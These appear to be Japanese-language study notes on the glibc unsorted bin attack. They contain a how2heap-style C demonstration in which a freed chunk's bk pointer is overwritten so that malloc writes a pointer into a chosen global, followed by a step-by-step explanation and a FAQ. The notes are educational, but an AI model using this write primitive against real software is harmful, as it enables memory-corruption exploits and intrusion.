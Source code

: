 ## Unsorted bin attack

参考記事:
https://wiimdy.medium.com/how2heap-unsorted-bin-attack-16563985d80b  
https://rninche01.tistory.com/entry/heap-exploit-Unsorted-bin-Attack?source=post_page-----16563985d80b---------------------------------------  

以下のソースコードをtcacheが有効になっていないlibc(libc-2.23.soのubuntu16.04.6など)を使用してソースコードを実行

<details>
  
```
  
#include <stdio.h>
#include <stdlib.h>

unsigned long remissions;

int main(void)
{

        puts("So we will be covering an unsorted bin attack.");
        puts("The unsorted bin is a doubly linked list.");
        puts("This attack will allow us to write a pointer to the address of our choosing.");
        puts("While this attack really doesn't give us much control over what we write, we can count on it being a ptr (which will probably be a 'large' integer)");
        puts("Let's get started.\n");

    printf("So our goal will be to overwrite the value of the 'remissions' global variable.\n");
    printf("It is at the bss address: \t%p\n", &remissions);
    printf("With the value: \t\t%0lx\n\n", remissions);

    printf("We will start by allocating two chunks. One to insert into the unsorted bin.\n");
    printf("The other to prevent consolidation with the top chunk.\n");

        unsigned long *ptr0 = malloc(0xf0);
    unsigned long *ptr1 = malloc(0x10);

        printf("We have allocated our first chunk at:\t%p\n", ptr0);

        printf("Now let's free it to insert it into the unsorted bin.\n\n");

        free(ptr0);

        printf("Now that it has been inserted into the unsorted bin, we can see it's fwd and bk pointers.\n");

    printf("fwd:\t0x%lx\n", ptr0[0]);
    printf("bk:\t0x%lx\n\n", ptr0[1]);

    printf("Now when a chunk gets removed from the unsorted bin, a pointer to gets written to it's back chunk.\n");
    printf("Specifically a pointer will get written to bk + 0x10 on x64 (bk + 0x8 for x86).\n");
    printf("That is where we get our ptr write from.\n\n");

    printf("So by using a bug, we can edit the bk pointer of the freed chunk to point to remissions - 0x10.\n");
    printf("That way when the chunk leaves the unsorted bin, the pointer will be written to remissions.\n\n");

    ptr0[1] = (unsigned long)(&remissions - 0x2);

    printf("The current fwd and bk pointers after the write.\n");
    printf("fwd:\t0x%lx\n", ptr0[0]);
    printf("bk:\t0x%lx\n\n", ptr0[1]);


    printf("Now we allocate a new chunk of the same size to remove our freed chunk from the unsorted bin.");
    printf("This will trigger the write to remissions, which has a current value of 0x%lx\n", remissions);

    malloc(0xf0);

    printf("Now we can see that the value of remissions has changed.\n");
    printf("remissions:\t0x%lx\n", remissions);

}

```

</details>

![unsorted-bin-attack-diagram](https://github.com/user-attachments/assets/08eb6a3a-cb88-4d38-b98d-61f450357fe2)


### 概要

このプログラムは以下のステップで「Unsorted Bin Attack」を実演しています：  
  
セットアップ：  
グローバル変数 remissions が宣言されています。これが攻撃のターゲットです。  
プログラムはこの変数のアドレスと初期値を表示します。  
  
  
メモリ割り当て：  
ptr0 = malloc(0xf0) で0xf0バイトのメモリブロックを割り当てます。  
ptr1 = malloc(0x10) で小さなブロックを割り当てます（これはトップチャンクとの結合を防ぐため）。  
  
  
Unsorted Binへの挿入：  
free(ptr0) でptr0を解放し、Unsorted Binに挿入します。  
Unsorted Binは双方向リンクリストなので、解放されたチャンクにはforward（fwd）とbackward（bk）ポインタが含まれます。  
  
  
脆弱性の悪用：  
ptr0[1] = (unsigned long)(&remissions - 0x2) で解放済みのptr0のbkポインタを改ざんします。  
具体的には、remissionsのアドレスから0x10（x64では）を引いた値を指すように設定します。  
  
  
攻撃のトリガー：  
malloc(0xf0) で新しいチャンクを割り当てます。  
このとき、Unsorted Binから解放済みのチャンクが取り出され、bkポインタにはリンクリスト管理用のポインタが書き込まれます。  
改ざんしたbkポインタにより、この書き込みが remissions 変数に起こります。  
  
  
結果：  
remissions の値がメインアリーナへのポインタ（大きな値）に変更されています。  
  
  
重要なポイント  
  
Unsorted Binは、glibc malllocの実装で使用される双方向リンクリストです。  
解放されたチャンクがUnsorted Binから取り出されるとき、メモリ管理のためのポインタ更新が行われます。  
このコードはbkポインタを改ざんすることで、本来書き込まれるべきではない場所（remissions変数）にポインタが書き込まれるようにしています。  
この攻撃の結果、任意のメモリ位置に予測可能な値（通常は大きなポインタ値）を書き込むことができます。  

この技術は、実際のセキュリティ脆弱性の例示であり、教育目的で示されています。このような手法は、メモリ破壊バグを利用して攻撃者がシステムを侵害する方法の一例です。


### FAQ
  
Q.  
ptr0[1] = (unsigned long)(&remissions - 0x2)についてですが  
・unsortedbinに挿入されたptr0を操作することができるということでしょうか？  
・ptr0[1]というのはbkということでしょうか？  
・なぜ(unsigned long)(&remissions - 0x2)なのでしょうか？  
・なぜremissionsのアドレスから0x10（x64では）を引いた値を指すように設定なのでしょうか?  
  
  
A.  
ptr0を操作できる理由  
はい、unsorted binに挿入された（解放された）ptr0を操作できます。これは重要なセキュリティの問題点です。  
通常、メモリがfree()された後にそのメモリを参照・操作することは「use-after-free」と呼ばれるバグですが、このコードでは教育目的でこの問題を意図的に引き起こしています。  
実際の攻撃シナリオでは、何らかのプログラム上の脆弱性（バッファオーバーフローなど）を使って解放済みのメモリを操作します。  
ptr0[1]とbkの関係  
正確です。ptr0[1]はbkポインタを指しています。C言語でポインタ配列を扱う場合、ptr0[0]は最初の要素、ptr0[1]は2番目の要素になります。unsorted binに挿入されたチャンクの場合：  
  
ptr0[0] = 前方リンク（fwd）ポインタ  
ptr0[1] = 後方リンク（bk）ポインタ  
  
これらのポインタはunsorted binの双方向リンクリストを管理するために使われます。  
(unsigned long)(&remissions - 0x2)の意味  
これには2つのポイントがあります：  
  
&remissionsはremissions変数のメモリアドレスを取得しています  
-0x2は64ビットシステム（x64）では実質的に「-0x10バイト」を意味します  
  
なぜ「-0x2」なのかというと、このコードではunsigned long型のポインタを使っているため、アドレス計算が「要素単位」で行われます。  
x64システムではunsigned longは8バイト（64ビット）なので：  
  
-0x2は「2つのunsigned long要素分」だけ前に移動する  
2 × 8バイト = 16バイト = 0x10バイト  
  
つまり、(unsigned long)(&remissions - 0x2)は「remissionsのアドレスより16バイト（0x10）前のアドレス」を意味します。  
なぜremissionsのアドレスから0x10を引くのか  
コードのコメントにある通り：  
```
printf("Specifically a pointer will get written to bk + 0x10 on x64 (bk + 0x8 for x86).\n");
```

unsorted binからチャンクが取り出される際、メモリ管理システムはbkポインタが指すアドレスから0x10バイト先に特定のポインタ値を書き込みます。  
攻撃者の目的は「remissions変数にポインタを書き込む」ことなので、書き込み先がちょうどremissionsになるように逆算すると：  
  
書き込み先 = bkポインタの値 + 0x10  
remissions = bkポインタの値 + 0x10  
bkポインタの値 = remissions - 0x10  
  
この計算が「ptr0[1] = (unsigned long)(&remissions - 0x2)」という操作に反映されています。  
つまり、この操作によって、次回unsorted binからチャンクが取り出される際に、メモリ管理システムがbk + 0x10（つまりremissions）にポインタを書き込むように仕向けています。  
これがunsorted bin attackの本質です。  
→つまり、この攻撃によって次回unsorted binにポインタが書き込まれることでlibc leakに繋がる
